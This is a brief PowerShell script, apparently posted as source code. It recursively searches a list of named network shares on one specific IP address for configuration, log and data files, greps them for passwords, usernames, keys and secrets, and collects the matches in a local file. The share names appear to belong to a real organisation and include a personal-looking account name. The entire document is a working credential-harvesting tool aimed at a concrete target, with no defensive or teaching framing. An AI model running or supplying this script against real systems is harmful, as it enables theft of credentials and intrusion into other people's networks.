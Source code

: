 $shares = "Adama", "Agan-Imprivata", "AGRIC", "allusr", "hilan", "Lab Results", "NATIV P", "Oee_28", "ruslan.alanazarov", "vol", "w_Analytical Lab", "yosi temp"
foreach ($share in $shares) { 
    Get-ChildItem "\\199.203.129.16\$share" -Recurse -Include *.txt,*.cfg,*.ini,*.json,*.log,*.xml 2>$null | 
    Select-String -Pattern "password|username|user|key|secret|credentials" | 
    Out-File -Append "C:\Temp\credentials_found.txt" -Encoding UTF8 
}
